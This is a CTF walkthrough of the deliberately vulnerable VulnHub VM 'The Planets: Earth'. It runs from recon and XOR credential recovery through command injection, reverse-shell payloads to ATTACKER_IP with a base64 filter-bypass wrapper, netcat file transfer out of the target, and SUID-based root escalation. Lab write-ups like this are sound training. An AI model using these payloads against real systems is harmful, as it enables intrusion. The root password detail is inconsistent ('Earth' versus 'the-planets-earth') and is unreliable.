# The Planets: Earth — VulnHub CTF Walkthrough
**By Gurgen Avagyan** — web enumeration → RCE → reverse shell → local privilege escalation

---

## TL;DR
This walkthrough covers a full exploit chain on the VulnHub VM **“The Planets: Earth”** — reconnaissance, host-header discovery, hidden test-site enumeration, recovering credentials with a small Python XOR decoder, gaining web RCE, obtaining a reverse shell, and locally escalating to root via analysis of a SUID helper script.

---

## TABLE OF CONTENTS
1. [Setup & Recon](#section-1-–-setup--recon)
2. [Host header & local DNS trick](#section-2-–-host-header--local-dns-trick)
3. [Web enumeration & hidden test site](#section-3-–-web-enumeration--hidden-test-site)
4. [Recovering admin credentials with a Python XOR decoder](#section-4-–-recovering-admin-credentials-with-a-python-xor-decoder)
5. [Getting RCE and a reverse shell](#section-5-–-getting-rce-and-a-reverse-shell)
6. [Post-exploitation: finding SUID helpers & priv-esc](#section-6-–-post-exploitation-finding-suid-helpers--priv-esc)
7. [Lessons learned & remediation](#section-7-–-lessons-learned--remediation)
8. [Appendix: tools, commands](#section-8-–-appendix-tools-commands-decoder-publishing-guidance)

---

# SECTION 1 — SETUP & RECON
**Target:** VulnHub VM “The Planets: Earth”  
**Attacker:** Kali Linux (example: Kali 2024.4)  
**Network:** VirtualBox Host-Only (ensure both VMs are in same subnet)

### Prerequisites (local lab)
- VirtualBox / VMware
- Kali with: `nmap`, `curl`, `ffuf`/`dirsearch`/`dirb`, `netcat (nc)`, `python3`, `ltrace` (optional)


### Discover the target IP
Example commands:
```bash

sudo arp-scan -l
# or
sudo nmap -sn 192.168.1.0/24
```



### Lightweight service scan
```bash
  sudo nmap -sC -sV -A 192.168.1.106 -oN scans/nmap_initial.txt
```

**Key observations to record:**
- Open HTTP (80) and HTTPS (443)
- SSH (22)
- TLS certificate SANs (these often reveal server hostnames such as `earth.local` or `terratest.earth.local`)

**Save outputs to:**
- `scans/nmap_initial.txt`

---

# SECTION 2 — HOST HEADER & LOCAL DNS TRICK
**Problem:** Hitting the server by IP returned `400 Bad Request.` The TLS cert SANs showed DNS names (e.g., `earth.local`, `terratest.earth.local`), indicating name-based virtual hosting.

**Why it matters:** Apache (and other web servers) use Host headers to decide which virtual host to serve. If a request uses only the IP, the server may reject it or return the default site (here: `400`).

### How to inspect certificate SANs
```bash
    echo | openssl s_client -connect 192.168.1.106:443 2>/dev/null | openssl x509 -noout -text | sed -n '/Subject Alternative Name/,$p'
```



Look for lines like:
```
X509v3 Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
```

### Add hostnames to `/etc/hosts`
Example (replace IP with discovered IP):
```bash
  
echo "192.168.1.106 earth.local terratest.earth.local" | sudo tee -a /etc/hosts
# or edit with
sudo nano /etc/hosts
# add:
192.168.1.106 earth.local terratest.earth.local
```

### Verify
```bash

curl -I http://earth.local/
curl -I -k https://terratest.earth.local/
# or without editing hosts:
curl -I -H "Host: earth.local" http://192.168.1.106/
```



**Save artifacts:**
- `scans/openssl_server.txt`
- `scans/curl_earth_headers.txt`




---

# SECTION 3 — WEB ENUMERATION & HIDDEN TEST SITE
**Tools used:** `ffuf`, `dirsearch`, `dirb` — run wordlist-based discovery against `earth.local` and `terratest.earth.local`.

**Findings:**
- `terratest.earth.local` had a `robots.txt` that pointed to `testingnotes.txt`.
- `testingnotes.txt` referenced XOR encryption, a `testdata.txt` file (encoded strings), and gave a hint: username **terra** for the admin portal.

### Example steps
```bash

dirsearch -u http://terratest.earth.local -w /usr/share/wordlists/dirb/big.txt
curl http://terratest.earth.local/robots.txt
curl http://terratest.earth.local/testingnotes.txt
curl http://terratest.earth.local/testdata.txt
```


---

# SECTION 4 — RECOVERING ADMIN CREDENTIALS WITH A PYTHON XOR DECODER
**Problem:** `testdata.txt` contained several hex strings that, when decoded (From Hex then XOR with a key from `testingnotes.txt`), revealed credentials.

**Approach:** small Python script to:
- accept hex input (or raw),
- convert to bytes if hex,
- XOR with repeating key,
- print the decoded plaintext.

### `xor_decoder.py`
```python
#!/usr/bin/env python3
import argparse, binascii, getpass

def read_input(hexarg, infile):
    if hexarg:
        h = hexarg.strip()
        if h.startswith(("0x","0X")): h = h[2:]
        return binascii.unhexlify(h)
    b = open(infile,"rb").read()
    try: return binascii.unhexlify(b.decode().strip())
    except: return b

def read_key(keyarg, keyfile, prompt):
    if keyfile: return open(keyfile,"rb").read()
    if keyarg is not None: return keyarg.encode()
    if prompt: return getpass.getpass("Key: ").encode()
    raise SystemExit("Key required")

def xor(data, key, offset=0):
    if not key: raise SystemExit("Empty key")
    k=len(key)
    return bytes([b ^ key[(i+offset)%k] for i,b in enumerate(data)])

def main():
    p=argparse.ArgumentParser()
    g=p.add_mutually_exclusive_group(required=True)
    g.add_argument("--hex")
    g.add_argument("--infile")
    p.add_argument("--key"); p.add_argument("--keyfile"); p.add_argument("--prompt",action="store_true")
    p.add_argument("--offset",type=int,default=0)
    p.add_argument("--try-offsets",type=int,default=0)
    p.add_argument("--out"); p.add_argument("--hexout",action="store_true")
    args=p.parse_args()

    data=read_input(args.hex,args.infile)
    key=read_key(args.key,args.keyfile,args.prompt)

    if args.try_offsets>0:
        results=[]
        for off in range(args.try_offsets):
            dec=xor(data,key,off)
            score=sum(1 for x in dec if 32<=x<=126 or x in (9,10,13))/len(dec)
            results.append((score,off,dec))
        results.sort(reverse=True)
        for score,off,dec in results[:5]:
            print(f"\n-- offset={off} score={score:.3f} --")
            try: print(dec.decode("utf-8"))
            except: print(dec[:200])
            if args.hexout: print(binascii.hexlify(dec).decode())
        if args.out: open(args.out,"wb").write(results[0][2])
    else:
        dec=xor(data,key,args.offset)
        try: print(dec.decode("utf-8"))
        except: print(dec)
        if args.hexout: print(binascii.hexlify(dec).decode())
        if args.out: open(args.out,"wb").write(dec)

if __name__=="__main__": main()

```

**How I used it:**
```bash

python3 xor_decoder.py --hex "2402111b1a07..." --key "my secret"
#or
python3 xor_decoder.py --infile secret.hex --keyfile key.bin --out result.bin
```
One decoded output produced the admin password:



```
Username: terra
Password: earthclimatechangebad4humans
```





---

# SECTION 5 — GETTING RCE AND A REVERSE SHELL
**Observation:** The admin panel included a form that accepted `message` and `message_key` and processed it server-side. The form included a CSRF token; the app executed user-supplied commands (command injection / RCE vector).

### Initial verification
From the input field run simple commands to confirm execution:
```
whoami
pwd
ls
```


### Preparing a reverse shell
1. Start a listener on attacker machine:
```bash
  nc -lnvp 53666
```


2. Example payloads (choose based on what `nc` / `bash` allow):
- `nc -e /bin/bash ATTACKER_IP PORT` (works if `nc` on target supports `-e`)
- `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` (pure bash)

3. Base64-encoded approach (helpful to bypass filters):
```bash

# locally generate base64 payload
echo -n 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1' | base64
# on target (in the command input):
echo 'BASE64STRING' | base64 -d | bash
```


**Important encoding note:** Use straight ASCII quotes (`'`) not smart/curly quotes (`“ ”`). Smart quotes will break shells.

### After getting a connection
Spawn a better TTY:
```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
# press Enter
```


**Troubleshooting:**
- Verify attacker IP reachability from target
- Check host-only network / firewall
- Validate payload quoting and no stray characters
---

# SECTION 6 — POST-EXPLOITATION: FINDING SUID HELPERS & PRIV-ESC
**Goal:** Escalate from web user to root by finding misconfigured SUID files or scripts that can be abused.

### Common enumeration
```bash

find / -perm -u=s -type f 2>/dev/null
sudo -l  # if sudo available
# Check:
cat /etc/passwd
ps aux
crontab -l
```



**Found example:** `/usr/bin/reset_root` (SUID helper or script of interest)

### Safer offline analysis
Transfer the binary/script to your machine for offline analysis.

**File transfer (netcat method):**
On attacker:
```bash
  nc -lnvp 4444 > reset_root
```
On target:
```bash
  nc ATTACKER_IP 4444 < /usr/bin/reset_root
```


On attacker, inspect `reset_root`:
```bash

file reset_root
strings reset_root | less
ltrace ./reset_root  # careful
```


**Analysis summary (example):**
- The script checked for three files/directories; if they exist it would reset the root password to a hardcoded value (`Earth`).
- Create the required files/dirs on the target (via the web shell).
- Execute the `reset_root` script.


**Escalate:**
```bash

su - root
# Password: the-planets-earth
cat /root/root_flag.txt
```



**Ethics note:** This VM is intentionally vulnerable. Never run these techniques against systems you do not own or have permission to test.

---

# SECTION 7 — LESSONS LEARNED & REMEDIATION
**High level takeaways:**
- Certificates and SANs can reveal hostnames; always inspect TLS certs during recon.
- Never leave developer notes, testdata or keys in publicly accessible paths.
- Avoid implementing functionality that executes user-supplied commands directly; use proper validation, sanitization, and safe execution strategies (no shell invocation with raw user data).
- SUID scripts that change critical system state must be strictly controlled and audited. Avoid hard-coded secrets and enforce least privilege.
- Monitor and restrict availability of tools like `netcat` on production hosts; consider input sanitization and proper logging.

**Remediation checklist:**
- Remove test files and developer notes from production.
- Use parameterized operations and deny any direct shell execution from web inputs.
- Harden filesystem permissions; remove or audit SUID binaries.
- Use WAF rules or input validation to block command injection patterns.
- Rotate credentials and avoid predictable hard-coded passwords.

---

# SECTION 8 — APPENDIX: TOOLS, COMMANDS

## Tools used
- `nmap`, `arp-scan`
- `curl`, `openssl`
- `ffuf` / `dirsearch` / `dirb`
- `netcat` (`nc`)
- `Python 3`
- `ltrace`, `strings`, `file`

## Useful commands
```bash

# Find hosts:
sudo arp-scan -l
# Ping-sweep:
sudo nmap -sn 192.168.1.0/24
# Service scan:
nmap -sC -sV -A 192.168.1.106 -oN scans/nmap_full.txt
# Read cert SANs:
echo | openssl s_client -connect 192.168.1.106:443 2>/dev/null | openssl x509 -noout -text | sed -n '/Subject Alternative Name/,$p'
# Host header test:
curl -I -H "Host: earth.local" http://192.168.1.106/
# Reverse shell listener:
nc -lnvp 53666
